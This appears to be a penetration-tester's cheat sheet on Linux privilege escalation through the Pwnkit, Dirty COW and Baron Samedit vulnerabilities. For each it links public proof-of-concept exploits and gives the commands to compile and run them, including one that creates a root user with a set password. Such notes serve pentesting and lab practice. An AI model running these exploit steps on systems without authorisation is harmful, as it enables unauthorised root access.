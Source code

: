 # Kernel Exploits

### Pwnkit (CVE-2021-4034, `pkexec`)

Relies on `pkexec` being SUID, double check with the following command

```bash
which pkexec
ls -al /usr/bin/pkexec
```

If pkexec is SUID: **`-rwsr-xr-x`**, expoitation is possible

- [cve-2021-4034-poc.c](https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c)
	- `gcc cve-2021-4034-poc.c -o pwn`
	- `./pwn`

Notable Links:

- https://github.com/berdav/CVE-2021-4034
- [Explination](https://www.youtube.com/watch?v=eTcVLqKpZJc)

### Dirty COW (CVE-2016-5195)

[PoC List](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

- [cowroot.c](https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c)
	- `gcc cowroot.c -o cowroot -pthread`
	- `./cowroot`
- [dirty.c](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
	- `gcc -pthread dirty.c -o dirty -lcrypt`
	- `./dirty password123`
	- `su firefart` or `ssh firefart@...`

Notable Links:

- [Explination](https://www.youtube.com/watch?v=kEsshExn7aE)

### Baron Samedit (CVE-2021-3156, `sudo`)

Vulnerable versions:

- All legacy versions from `1.8.2` to `1.8.31p2`
- All stable versions from `1.9.0` to `1.9.5p1`

https://github.com/worawit/CVE-2021-3156

- `python3 exploit_nss_manual.py`
